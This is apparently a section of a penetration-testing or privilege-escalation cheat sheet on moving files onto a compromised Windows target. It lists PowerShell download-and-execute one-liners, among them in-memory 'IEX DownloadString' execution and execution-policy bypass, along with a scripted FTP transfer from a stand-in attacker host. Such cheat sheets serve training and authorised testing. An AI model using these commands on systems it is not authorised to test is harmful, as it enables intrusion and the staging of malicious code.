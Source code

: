 ## Transferring Files

At some point during privilege escalation, you will need to get files onto your target. Below are some easy ways to do so.

**PowerShell Cmdlet \(Powershell 3.0 and higher\)**

```text
Invoke-WebRequest "https://server/filename" -OutFile "C:\Windows\Temp\filename"
```

**PowerShell One-Liner**

```text
(New-Object System.Net.WebClient).DownloadFile("https://server/filename", "C:\Windows\Temp\filename") 
```

OR

```text
powershell.exe -exec bypass -Command (New-Object System.Net.WebClient).DownloadFile('https://server/filename', 'C:\Windows\Temp\filename')
```

**PowerShell One-Line Script Execution in Memory**

```text
IEX(New-Object Net.WebClient).downloadString('http://server/script.ps1')
```

**PowerShell with Proxy**

```text
$browser = New-Object System.Net.WebClient;
$browser.Proxy.Credentials = [System.Net.CredentialCache]::DefaultNetworkCredentials;
IEX($browser.DownloadString('https://server/script.ps1'));
```

**PowerShell Script**

```text
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://server/file.exe" >>wget.ps1
echo $file = "output-file.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
		
powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
```

Non-interactive FTP via text file. _Useful for when you only have limited command execution._

```text
echo open 10.10.10.11 21> ftp.txt
echo USER username>> ftp.txt
echo mypassword>> ftp.txt
echo bin>> ftp.txt
echo GET filename>> ftp.txt
echo bye>> ftp.txt
		
ftp -v -n -s:ftp.txt
```
